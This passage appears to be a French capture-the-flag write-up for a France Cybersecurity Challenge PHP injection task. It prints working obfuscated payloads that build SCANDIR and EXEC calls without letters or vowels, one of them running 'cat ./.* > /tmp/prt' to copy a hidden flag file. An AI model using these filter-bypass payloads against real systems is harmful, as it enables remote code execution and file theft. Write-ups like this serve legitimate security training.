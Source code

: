 Si on balance ça dans

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22.%22%29%29%3B
```

On obtient

![image3](assets/image3.png)

Donc dans ce répertoire nous avons 2 fichiers ('.' et '..' sont des répertoires. '.' le répertoire courant, et '..' le répertoire parent).
- `.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php`
- `index.php`

On pourrait essayer d'afficher le contenu de `.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php` mais le nom du fichier est trop grand, contient des caractères numériques et des voyelles.

Un des seul répertoire, si ce n'est le seul, à être accessible en écriture sous Unix est le dossier `/tmp`.

On va donc essayer de copier le contenu de ce fichier dans un fichier, dans le répertoire `/tmp`

On va donc écrire le [payload](https://fr.wikipedia.org/wiki/Charge_utile) suivant

```php
<?php

$_=[]; // Array
$_=@"$_"; // $_ = 'Array'
$_=$_["!"=="@"]; // 'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; //'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$p = chr(--$d); // 'a'
$n=++$_; // 'U'
$h = "{$r}X{$r}C"; // 'EXEC'
$v = "c{$p}t ./.* > /tmp/prt"; // 'cat ./.* > /tmp/prt'
$h($v); // EXEC("cat ./.* > /tmp/prt")
```

